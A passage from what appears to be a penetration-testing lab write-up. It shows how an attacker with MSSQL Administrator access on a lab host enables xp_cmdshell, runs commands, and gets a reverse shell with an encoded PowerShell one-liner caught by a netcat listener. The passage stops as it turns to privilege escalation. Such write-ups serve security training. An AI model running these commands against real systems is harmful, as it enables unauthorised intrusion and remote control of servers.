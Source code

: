 
As we demonstrated earlier, we can now access the `MSSQL` service on `sql01.antennae.rv` as `Administrator`. From here, we can enable the [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17) stored procedure, which allows us to execute arbitrary commands on the underlying operating system.

> This is disabled by default for security reasons, but since we are `Administrator`, we can enable it.

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(SQL01): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator  dbo@master)> RECONFIGURE;
SQL (ANTENNAE.RV\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(SQL01): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator  dbo@master)> RECONFIGURE;
```

Now, we can use the stored procedure to execute commands on `sql01.antennae.rv` as `svc_sql`:

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> xp_cmdshell whoami
output             
----------------   
antennae\svc_sql   

NULL 
```

### Local Privilege Escalation

From this, we can obtain a reverse shell on `sql01.antennae.rv` using a powershell one-liner obtained from [revshells.com](https://www.revshells.com/):

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8[....snip....]uAEMAbABvAHMAZQAoACkA
```

This reverse shell points to our attacking machine, on port `8443`:

```
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 59996

PS C:\Windows\system32> whoami
antennae\svc_sql
PS C:\Windows\system32> 
```

Local service accounts typically have some level of elevated privileges on the machine, this is often a requirement to provision services. In this case, we'll see that the `svc_sql` has the `SeImpersonatePrivilege` privilege:
